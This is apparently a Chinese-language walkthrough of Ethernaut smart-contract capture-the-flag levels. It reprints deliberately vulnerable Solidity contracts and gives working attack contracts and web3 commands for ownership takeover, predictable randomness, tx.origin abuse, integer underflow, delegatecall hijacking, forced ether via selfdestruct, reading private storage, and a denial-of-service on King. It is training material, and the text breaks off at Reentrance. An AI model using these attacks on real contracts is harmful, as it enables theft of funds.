- [Fallback](#fallback)
- [Fallout](#fallout)
- [Coin Flip](#coin-flip)
- [Telephone](#telephone)
- [Token](#token)
- [Delegation](#delegation)
- [Force](#force)
- [Vault](#vault)
- [King](#king)
- [Reentrance](#reentrance)


# Fallback


```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

目标:

Look carefully at the contract's code below.

You will beat this level if

1. you claim ownership of the contract   获取合约的所有权
2. you reduce its balance to 0  窃取所有余额

 Things that might help

- How to send ether when interacting with an ABI
- How to send ether outside of the ABI
- Converting to and from wei/ether units (see `help()` command)
- Fallback methods


结合合约代码和目标看，withdraw()可以提取所有余额，但是用onlyOwner修饰过，只允许owner调用，因此只需要让owner变成我们自己就能达到两个目标。总共三个修改这个变量的地方，constructor()、contribute()和receive()

（1）constructor()是构造函数，我们调用不了；

（2）contribute()是public，可以调用，但是有条件，贡献的币必须比原有owner贡献的高，然而owner部署合约的时候就贡献了1000eth，每次贡献的msg.value还被限制必须 < 0.001 ether，所以要走到if(contributions[msg.sender] > contributions[owner])，得调用1000/0.001次contribute，显然不行

（3）receive()是收到转账是触发，满足msg.value > 0 && contributions[msg.sender] > 0就能让owner = msg.sender;

因此先贡献一点点eth，然后给漏洞合约转账，就能满足这个条件

攻击合约代码：

```
contract Attack{
    Fallback public fb; // Fallback合约地址

    // 初始化Fallback合约地址
    constructor(Fallback _fb) payable {
        fb = _fb;
    }
    // 先贡献然后转钱 要满足require(msg.value > 0 && contributions[msg.sender] > 0);这个条件
    function contributeIt() external payable{
        fb.contribute{value:1}();
    }
    function attackIt() external payable{
        //fb.contribute{value:1}();
        (bool isSuccess, /* memory data */ ) = payable(address(fb)).call{value: 1 wei}("");
        require(isSuccess, "Failure! Ether not send.");
    }
    //最后窃取漏洞合约所有的币
    function withdrawIt() external payable{
        fb.withdraw();
    }
    receive() external payable {
        
    }
}
```

我们用remix简单测试下

先用第一个账户部署Fallback合约


可以看到当前owner是0x5B38Da6a701c568545dCfcB03FcB875f56beddC4这个账户，贡献值很高


此时记住Fallback合约的地址（0xDA0bab807633f07f013f94DD0E6A4F96F8742B53），然后用第二个账户部署Attack合约，给第二个合约打点初始资本（这里给了10000wei），用于后面给Fallback合约做贡献


先满足第一个条件，让贡献值大于0


然后执行attackIt


可以看到owner已经变成我们attack合约的地址了，然后执行withdrawIt就能提取所有贡献的币


# Fallout


```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
//import 'openzeppelin-contracts-06/math/SafeMath.sol';
//这里修改了一下，上面的导入方式remix貌似不识别
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/release-v3.0.0/contracts/math/SafeMath.sol";

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```


目标和fallback一样 获取所有权

合约名是Fallout  但是构造函数时Fal1out 写错了，因此可以直接调用Fal1out

因此随便换个人执行下fal1out就能改变owner


# Coin Flip


```
题目提示：这是一款抛硬币游戏，您需要通过猜测抛硬币的结果来建立连胜。 要完成此关卡，您需要使用您的心灵能力连续 10 次猜测正确的结果
```

```
//题目代码
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```


代码比较简单，consecutiveWins是记录胜利次数的，输入bool _guess，和根据区块地址随机计算的side值比对，如果猜对了就consecutiveWins递增，错了consecutiveWins归零

看flip函数代码发现用的blockhash函数，`blockhash(block.number-1)`作为种子来获取随机数，容易想到是伪随机带来的风险，参考：

https://github.com/AmazingAng/WTF-Solidity/blob/main/S07_BadRandomness/readme.md

https://github.com/AmazingAng/WTF-Solidity/tree/main/39_Random


攻击代码也很简单，直接把漏洞代码里面的随机数计算复制一遍，因为`attackMint()`和`flip()`将在同一个区块中调用，`blockhash`和`block.timestamp`是相同的，利用他们生成的随机数也相同。

```
contract Attack {
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    function attackMint(CoinFlip nftAddr) external {
        // 提前计算随机数
        uint256 blockValue = uint256(blockhash(block.number - 1));
        if (lastHash == blockValue) {
            revert();
        }
        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool mySide = coinFlip == 1 ? true : false;
        // 利用 计算的 攻击
        nftAddr.flip(mySide);
    }
}
```

复现过程：

（1）我们用anvil启动一个本地链，5s生成一个新区块（据说 Remix 自带的 Remix VM不支持 `blockhash`函数，我没试，我直接本地测比较保险，因为remix vm还有其他bug）：

```
anvil --block-time 5
```


remix ide的env选本地的


（2）然后正常部署两个合约，你可以先试试手动flip，是很难纯靠猜连胜十次的，但是可以通过attackMint函数一直连胜，可以看到我现在就十连胜了，满足题目要求了


attackMint函数可能提示这个，暂时不用管，不影响复现


# Telephone


```
题目要求：声明以下合同的所有权以完成此级别。
```

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```


能改owner的就在changeOwne()函数里面，条件tx.origin != msg.sender满足时就会将owner改成address _owner参数的值，

因此我们就要看下怎么满足这个条件

这里我们借用wtf-solidity项目的图来解释一下这两个东西：tx.origin和msg.sender

https://github.com/AmazingAng/WTF-Solidity/tree/main/S12_TxOrigin


很明显，要满足条件，就需要借助一个中间合约（图中合约B），然后随便一个用户A点击一下，就能满足tx.origin != msg.sender

因此攻击代码无需很复杂，获取漏洞合约的地址，然后调用changeOwner()函数地址，我这里直接将Owner改成msg.sender，对于Attack来说msg.sender就是调用他的用户，你也可以随便换个其他的地址

```
contract Attack {
    Telephone public tele;

    constructor(Telephone _tele) {
        tele = _tele;
    }

    function attackTele() public {
        tele.changeOwner(msg.sender);
    }

}
```


我们先用用户1 部署Telephone合约，看到owner是用户1的地址0xf39....


然后用户2部署Attack合约，点击attackTele之后，再看合约Telephone的owner地址，已经变成用户2的0x709...了


# Token


```
题目要求：此级别的目标是让您破解下面的基本代币合约。
一开始你会得到 20 个代币，如果你能设法获得任何额外的代币，你就能通关。 最好是非常大量的代币。
```

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```


这个合约一开始创建的时候会让你指定一个初始的代币值，根据提示是要获取额外的代币，能改余额的也就transfer()函数了，

看到uint256做运算，很容易想到整数溢出，因为uint没有负数，require怎么都会满足

solidity 0.8.0 版本之后会自动检查整型溢出错误，所以用0.6.0测试的

这里用20代币初始部署测试一下：


这里我们随便找个地址转账0x709...，金额大于20就行


然后看看我们账户的余额，已经是非常大了：


# Delegation


```
题目要求：此级别的目标是让您声明对给定实例的所有权
```

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```


Delegate合约倒简单，直接换个用户调用pwn()就改掉了owner

关键是Delegation合约，在fallback函数中我们发现有个(bool result,) = address(delegate).delegatecall(msg.data);

因为fallback可以触发，且msg.data是我们可控的字段，那这样就能让他delegatecall我们想要的函数，怎么实现更改owner呢？

这里就要提到delegatecall和call的区别：

https://github.com/AmazingAng/WTF-Solidity/tree/main/23_Delegatecall



这里Delegate就相当于合约C

Delegation合约就相当于B

所以我们需要通过合约Delegation 通过delegatecall调用合约Delegate的pwn函数，就能改变合约Delegation的owner，因为变量会作用在Delegation

因此攻击合约就需要转账给Delegation ，触发fallback，同时msg.data为pwn()函数的编码，触发delegatecall，就能达到效果

```
contract Attack {
    // Delegation 合约地址
    Delegation public delegationContract;

    constructor(address _delegationContractAddress) {
        delegationContract = Delegation(_delegationContractAddress);
    }

    function attack() public payable {
        // 构造pwn函数的二进制编码，用于delegatecall调用
        bytes memory payload = abi.encodeWithSignature("pwn()");

        // 转账，触发Delegation 合约的 fallback 函数
        (bool success, ) = address(delegationContract).call(payload);
        require(success, "Attack failed");
    }
}
```

演示：

用户 1 2 3分别部署三个合约，查看Delegation的owner是用户2 0xAb8...



我们输入msg.value，点击attack触发，再看owner已经是我们攻击合约的地址：




# Force

这个题目很奇怪，啥也没有

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

题目要求是让这个合约的余额大于0，但是这里没有receive和fallback

https://github.com/AmazingAng/WTF-Solidity/tree/main/19_Fallback

```
合约接收`ETH`时，`msg.data`为空且存在`receive()`时，会触发`receive()`；`msg.data`不为空或不存在`receive()`时，会触发`fallback()`，此时`fallback()`必须为`payable`。

`receive()`和`payable fallback()`均不存在的时候，向合约直接发送`ETH`将会报错
```

亲测也是：



让我们看看提示

```
Fallback methods
Sometimes the best way to attack a contract is with another contract.
```

让我们使用另一个合约？也不太理解，查资料才知道：

https://learnblockchain.cn/article/3331



那这个意思就是通过合约自毁，强制把钱打过去



那攻击代码也很简单了：

```
contract Attack {
    Force public ForceContract;
	//payable修饰用于初始接受eth
    constructor(address ForceContractAddress) payable {
        ForceContract = Force(ForceContractAddress);
    }
	
    function attack() public payable {
        address payable addr = payable(address(ForceContract));
        //自毁
        selfdestruct(addr);
    }
}
```

部署attack合约的时候给他初始打一些eth：



然后attack



# Vault

```
题目要求：解锁金库以通过关卡！
看起来应该是要把locked变量改成false
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```

看起来是public，但是不能通过其他合约直接改，毕竟是private的变量



搜索别人的解法都是借助web3.js直接读取链上的信息

命令行格式为：

```
web3.eth.getStorageAt(address, position [, defaultBlock] [, callback])
```

address是合约地址，position是索引位置

```
web3.eth.getStorageAt(instance,1)
```



这里看到是bytes32的，还得借助web3.utils.toAscii转换成string

```
console.info(web3.utils.toAscii("0x412076657279207374726f6e67207365637265742070617373776f7264203a29"))
```




这就是密码了，然后用这个密码解锁，这里不用直接复制了，直接一句话搞定，最后我们查看这个已经是解锁状态

```
contract.unlock(await web3.eth.getStorageAt(contract.address, 1))
```





# King

```
题目要求：
下面的合约代表了一个非常简单的游戏：谁发送的以太币数量大于当前奖励，谁就成为新国王。 在这样的事件中，被推翻的国王将获得新的奖品，并在此过程中赚取一点以太！ 就像庞氏骗局一样

这么有趣的游戏。 你的目标是打破它。
当您将实例提交回关卡时，该关卡将收回王权。 如果你能避免这样的自我宣告，你就能通过关卡。
```


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

这里我们看代码 意思就是谁给的钱多谁就是king，题目要收回王权那就是要打个很大的钱，你要让他收回不成功。

收钱相关的是fallback和receive，这里只有receive，意思就是满足msg.value >= prize或者msg.sender == owner，就会把msg.value的eth转给当前的king，然后修改king为msg.sender，比如初始1 wei就是king，这时A打了2 wei，这时代码就会把2 wei转给初始的King，然后更新king为 A。

容易想到的是transfer涉及到转账，如果说转给一个合约，会触发该合约的fallback或者receive，如果没有就会转载不成功，因此要攻击的话，写个没有fallback和receive方法的合约，先转账给King合约，变成king，然后别人就算比你转的钱多，到了transfer那一步也是失败

```
contract Attack {
    address public kingContractAddress;

    constructor(address payable _kingContractAddress) {
        kingContractAddress = _kingContractAddress;
    }

    function attackKing() public payable {
        (bool success, ) = kingContractAddress.call{value: msg.value}("");
        require(success, "fail");
    }
}
```

复现：

首先我们部署King合约，初始的prize设置成1 wei





king和owner目前都是0x5B...

然后部署攻击合约



用一个比prize大的数，先满足条件，修改king为攻击合约





这样别人再转多的钱 也无法成为king了

# Reentrance

```
题目目的：
The goal of this level is for you to steal all the funds from the contract.
这一关的目标是让你窃取合约中的所有资金。
```

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

//import "openzeppelin-contracts-06/math/SafeMath.sol";
//改成远程引入方便我们调试，懒得下文件
